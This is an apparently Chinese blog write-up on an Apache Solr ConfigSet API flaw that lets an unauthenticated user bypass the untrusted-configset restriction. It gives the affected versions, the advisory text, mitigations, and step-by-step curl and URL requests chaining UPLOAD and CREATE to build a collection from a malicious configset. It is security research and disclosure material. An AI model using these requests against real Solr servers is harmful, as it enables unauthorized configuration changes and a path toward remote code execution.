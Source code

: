 
### 影响版本
- 6.6.0 to 6.6.5
- 7.0.0 to 7.7.3
- 8.0.0 to 8.6.2

### 漏洞描述
本来Solr禁止了一些通过ConfigSet这个API上传进行配置的功能，因为这种危险操作容易造成RCE。但是可以通过结合UPLOAD/CREATE这两个ACTION来绕过这一限制。


原文
> Solr prevents some features considered dangerous (which could be used for remote code execution) to be configured in a ConfigSet that's uploaded via API without authentication/authorization. The checks in place to prevent such features can be circumvented by using a combination of UPLOAD/CREATE actions.

### 漏洞利用条件
- Solr的API未设置认证
- SolrCloud模式启动（因为Standalone模式不具备Configset API的功能）


### 漏洞原理：

正常的通过UPLOAD传上去的configset，是不能用于创建collection的： 如果尝试创建，会出现这个错误
```
The configset for this collection was uploaded without any authentication in place, and use of <lib> is not available for collections with untrusted configsets. To use this component, re-upload the configset after enabling authentication and authorization.
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013205617142.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
而当我们先UPLOAD，然后基于这个configset，去CREATE一个collection，就可以绕过这个限制：

达到的效果是可以自定义configset，然后基于此创建恶意collection。目前没想到如何利用好这个自定义的配置实现RCE。只知道用之前的模板注入，不过那个有版本限制吧？

### 步骤：
```
1、【UPLOAD】准备恶意配置，打包，上传

# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > db-configset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @db-configset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=db-configset"
2、【CREATE】根据UPLOAD的配置，创建一个新的配置，绕过不能通过直接UPLOAD创建collection的限制

/solr/admin/configs?action=CREATE&name=db-configset1&baseConfigSet=db-configset&configSetProp.immutable=false&wt=xml&omitHeader=true
3、【LIST】查看Configsets的配置，确保已生成了新的configset

/solr/admin/configs?action=LIST&omitHeader=true
4、根据CREATE得到的configset创建恶意collection

/solr/admin/collections?action=CREATE&numShards=1&name=coll_test1&collection.configName=db-configset1
5、利用之前的漏洞进行利用？
```

### 修复建议/缓解措施

- 禁用UPLOAD命令，即`-Dconfigset.upload.enabled=false`；
- 进行认证
- 升级到8.6.3及以上
- 若无法升级，尝试打这个补丁：[SOLR-14663](https://issues.apache.org/jira/browse/SOLR-14663)
- 设置防火墙规则进行访问控制，设置Solr API访问的白名单


### 参考
- https://seclists.org/oss-sec/2020/q4/47
- [ConfigSets CREATE does not set trusted flag](https://issues.apache.org/jira/browse/SOLR-14663)
- https://issues.apache.org/jira/browse/SOLR-14925



### Note
参考：
http://mail-archives.apache.org/mod_mbox/lucene-solr-user/201807.mbox/%3CCAPCX2-+jojXrWvPSPiBR_xwphdpk+yPM2HYLojX2rqRTKMGm9g@mail.gmail.com%3E


Solr可以运行在两种模式："Cloud" mode or "Standalone" mode。

SolrCloud mode下，可以创建collections，而在Standalone mode下，只能创建core。


在Standalone mode下会出现400，
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020101311185353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
关闭，重新启动SolrCloud mode：
这次成功了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013111947306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)



### 附录
#### 上传Configsets
```
# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > myconfigset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

#### 创建Configsets
基于之前上传的Configsets创建一个新的configset 
- name：这个新的的configset的名字
- baseConfigSet：基于哪个上传的Configsets
- configSetProp.immutable：将这个设置为false

```
http://cqq.com:8983/solr/admin/configs?action=CREATE&name=myConfigSet1&baseConfigSet=myConfigSet&configSetProp.immutable=false&wt=xml&omitHeader=true
```

#### 查看Configsets：
```
http://cqq.com:8983/solr/admin/configs?action=LIST&omitHeader=true
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013113257997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)

上传、以及配置后的Configsets并不在文件系统中，而是在Zookeeper中。

> The Configsets API enables you to upload new configsets to ZooKeeper, create, and delete configsets when Solr is running SolrCloud mode.


> This API provides a way to upload configuration files to ZooKeeper and share the same set of configuration files between two or more collections.

